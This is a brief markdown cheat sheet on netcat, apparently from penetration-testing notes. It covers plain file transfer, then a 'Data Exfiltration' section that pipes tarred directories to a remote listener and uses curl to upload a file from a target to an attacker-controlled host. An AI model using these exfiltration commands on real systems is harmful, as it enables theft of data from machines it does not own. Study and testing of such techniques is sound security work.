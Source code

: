 # Netcat

## 01 - Transfer Files

Sender

```
$ nc -nvv <IP> 1024 -w 10 < file.txt
```

Receiver

```
$ nc -lnvp 1024 > file.txt
```

Even in vice versa just depends how the environment is configured.

## 02 - Data Exfiltration

- Method 1

```
$ nc -l 8080 > directory_data.tar.gz

$ tar cfvz - directory_data | nc -w 15 <IP> 8080 directory_data

$ tar xzf directory_data.tar.gz
```

- Method 2

```
$ nc -l 8080 | tar xzvf -

$ tar czf - directory_data | nc <IP> 8080
```

### 2.1 - HTTP Server

```
$ nc -lnvp 4040 | tee file.txt
```

### 2.2 - Target

```
$ curl -T file.txt http://<attacker_IP>:4040
```

---
## References

- [How to Use Netcat to Establish and Test TCP and UDP Connections](https://www.digitalocean.com/community/tutorials/how-to-use-netcat-to-establish-and-test-tcp-and-udp-connections)